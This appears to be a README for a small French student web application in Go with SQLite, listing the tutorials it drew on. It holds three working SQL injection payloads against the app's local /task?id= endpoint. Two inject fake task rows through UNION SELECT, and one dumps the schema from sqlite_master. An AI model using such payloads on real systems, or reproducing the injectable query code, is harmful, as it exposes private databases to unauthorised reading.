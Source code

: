 # Application Web HTTP en GO

http://localhost:8080/task?id=? and false union select 1,2,3,4,'Normal','AFaire',true --
http://localhost:8080/task?id=? and false union select 1,2,3,4,'Urgent' ,' Terminee' ,true --

http://localhost:8080/task?id=? and false union select 1,2,name,sql,'Urgent','Terminee',true from sqlite_master limit 1 offset 0 --

## Sources utilisées

Web

* https://juliensalinas.com/fr/developper-deployer-site-web-entier-golang/
* http://decouvric.cluster013.ovh.net/generalites/une-premiere-application-web.html

SQLite

* https://www.codeproject.com/Articles/5261771/Golang-SQLite-Simple-Example
